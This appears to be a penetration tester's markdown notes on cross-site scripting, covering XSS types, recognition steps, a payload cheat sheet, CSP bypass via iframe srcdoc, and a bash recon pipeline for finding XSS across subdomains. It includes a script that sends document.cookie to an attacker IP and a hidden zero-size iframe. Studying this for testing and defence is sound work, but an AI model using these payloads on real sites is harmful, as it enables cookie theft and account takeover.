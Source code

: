 XSS

## Theory

- Reflected : Input from a user is directly returned to the browser, permittint injection of arbitrary content
- Stored : Input from a user is stored on the server (often in a database) and returned later without proper escaping
- DOM : Input from a user inserted into the page's DOM without proper handling, enabling insertion of arbitrary code.


---

## Recognition

1. Figure out where it goes. Does it get embedded in a tag attribute ? into a string in a script tag ?
2. Figure out any special handling : Do URLs get turned into links ?
3. Figure out how special characters are handled : Try these ```'<>:;"'

- From those 3 steps, you'll know whether or not a givin input is vulnerable to XSS.
r(reflected)XSS are dependent on CSRF vulnerabilities to be exploitable, in the case of POST. If rXSS in GET, you are dependent on CSRF otherwise.

- Example 1 : Testing character, angle brackets ```<>``` are passed through without encoding
and text is shown in a text node of the document. Here a simple ```<script>alert("XSS");</script>``` will work.

- Example 2 : THe input is reflected in a tag attribute. You have to break out of the attribute, but in most cases you don't need to leave the tag; meaning no need for angle brackets.
- 


---

## Short cheat sheet 

```
"><h1>test</h1>"
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)
```
If one of these work, you just have to find the good one !

Complete cheat sheet : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

---


## With an iframe , it's possible to get same result but in a stealthier manner :

```<iframe SRC="http://10.11.0.156:81/report" height = “0” width = “0”></iframe>```


---

## Steal the cookies :

```<script>new Image().src="http://10.11.0.156:4441/bogus.php?output="+document.cookie;</script>```

---

## TOOL TO TEST 

https://github.com/Damian89/extended-xss-search

---

## Check how it is reflected

- Any weird character ? Encoded ? Double encoded ? 


---

## Bypass CSP

- Check the header content-security-policy (burp or dev tools)
- Copy paste the url or the header into https://csp-evaluator.withgoogle.com/
- Don't bother with the warning about object-src, too old thing.


### default-src 

- means that it will only execute javascript from the server. So here, use the javascript at your disposal from the server.

-  To solve it : according to the documentation, the srcdoc attribute overrides the src attribute and specifies the HTML content to show inside the iframe. But most importantly, the iframe with the srcdoc attribute is not cross domain, meaning that the content will be treated as coming from the same domain as the parent-page. 

```<iframe srcdoc="<script src=...></script>"></iframe>```

Example from the intigriti easter xss challenge : ```<iframe srcdoc="<script src=https://challenge.intigriti.io/'-alert(document.domain)-'></script>"></iframe>```

### Resources :
https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/
https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/april/a-novel-csp-bypass-using-data-uri/


### Simple XSS Check

By @TobiunddasMoe


```
#!/bin/bash
# $1 => example.domain

subfinder -d $1 -o domains_subfinder_$1
amass enum --passive -d $1 -o domains_$1

cat domains_subfinder_$1 | tee -a domain_$1
cat domains_$1 | filter-resolved | tee -a domains_$1.txt

cat domains_$1.txt | ~/go/bin/httprobe -p http:81 -p http:8080 -p https:8443 | waybackurls | kxss | tee xss.txt

```

### Prove impact easily

- ```xsscope```
